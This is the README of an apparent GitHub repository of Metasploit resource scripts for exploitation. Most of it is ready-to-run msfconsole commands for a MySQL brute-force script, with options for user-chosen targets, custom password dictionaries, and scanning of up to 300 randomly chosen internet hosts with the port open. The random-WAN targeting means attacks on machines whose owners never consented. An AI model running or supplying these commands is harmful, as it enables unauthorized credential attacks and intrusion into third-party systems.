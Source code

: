 ## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

![pic](http://i68.tinypic.com/21ovkfm.jpg)

<br />

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**
#### [!] [Please read the article about rc scripting here:](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](hgft)

> Many of the this brute force rc scripts are written to accept user inputs (setg global variables).<br />
> This means that users can run the resource script in 3 diferent ways:

- execute the resource script with default settings<br />
**( scan: 192.168.1.0/24 | Use Default dicionary )**

      msfconsole -r /root/mysql_brute.rc

- instruct the resource script to scan rhosts inputed by user<br />
**( scan: user input rhosts | Use Default dicionary )**

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

- instruct the resource script to search in WAN for rhosts with service port open<br />
**( scan: WAN for rhosts | Use Default dicionary )**

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

> Adicionally to the described settings we can also combine diferent configurations at runtime.

- instruct the resource script to search in WAN for rhosts with service port open and limit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg RANDOM 300;resource /root/mysql_brute.rc'

- instruct the resource script to use your own dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

- instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'



<br />

